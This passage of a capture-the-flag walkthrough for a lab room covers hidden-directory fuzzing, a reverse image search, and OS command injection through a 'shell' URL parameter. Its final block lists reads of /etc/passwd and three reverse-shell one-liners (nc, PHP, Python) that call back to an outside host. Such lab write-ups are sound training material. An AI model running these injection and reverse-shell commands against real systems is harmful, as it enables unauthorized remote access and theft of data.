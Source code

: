 ```
[INFO] Adding a new job to the queue: http://10.10.167.133/SafeHeaven/keeper/FUZZ
```

 Here, we can see a hidden directory has been detected `keeper`. 

On visiting that page, we get a link to `Escape Keeper`. When we click on that link, we are show an image and asked to find it's real location name. Also, there is timer running so we need to be quick to reverse search the image.

*P.S. No worries if your timer expires, you can just refresh the page and the timer resets.*

We can quickly save the image by right clicking and selecting save the image option. Then we need to go to google image search and search by uploading the image.

![escape_keeper_google](./.images/escape_keeper_google.png)

And here we find the location of the image that can be entered in the challenge to obtain the Keeper Key.  As soon as we submit the location name, we are redirected to another page where we are provided the keeper key. We can submit this key as the answer and move ahead to the fourth and last room on the map.

4. ##### What is the filename of the text file (without the file extension)

On the abandoned room page, we can find a link saying "Go Further" which leads us to another page where a timer is running and asks us to "Run" from the "Laura the Spiderlady". (I found this task really difficult and almost took an entire day to solve it)

There is no hint on the page as to how to run from laura, so we can head over to the source-code to see if some hint is provided over there.

![run_laura](./.images/run_laura.png)

Here, we are provided with a hint that there is "something called as `shell`" on the page that might be helpful. This gives an immediate hint towards OS command injection via setting GET request parameters in the URL. 

So, we can add the parameter `shell` to the URL and pass any OS commands to it. From the inital recon we know that it is a Linux machine. So, can try its compatible commands.

```
http://10.10.167.133/abandonedRoom/*********************************/herecomeslara.php?shell=ls
```

Sending this command would show us the files present in the current directory.

![laura_shell](./.images/laura_shell.png)

But here comes the tricky part, other than `ls` none of the commands worked. We can try various commands like:

```
cat /etc/passwd
ls -la
ls ../
ls ../../
pwd
id

Reverse Shell codes:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
